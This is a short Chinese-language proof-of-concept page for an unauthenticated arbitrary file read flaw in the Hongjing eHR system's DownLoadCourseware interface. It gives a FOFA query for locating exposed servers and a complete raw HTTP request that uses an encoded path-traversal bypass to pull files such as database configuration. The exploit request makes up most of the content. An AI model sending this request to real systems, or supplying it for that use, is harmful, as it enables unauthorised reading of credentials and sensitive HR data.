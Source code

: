 # 宏景eHR人力资源管理系统接口DownLoadCourseware存在任意文件读取漏洞

宏景eHR /DownLoadCourseware 接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```
app="HJSOFT-HCM"
```

## poc

```yaml
GET /w_selfservice/oauthservlet/%2e./.%2e/DownLoadCourseware?url=VHmj0PAATTP2HJBPAATTPcyRcHb6hPAATTP2HJFPAATTP59XObqwUZaPAATTP2HJBPAATTP6EvXjT HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20240704171035191](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407041710270.png)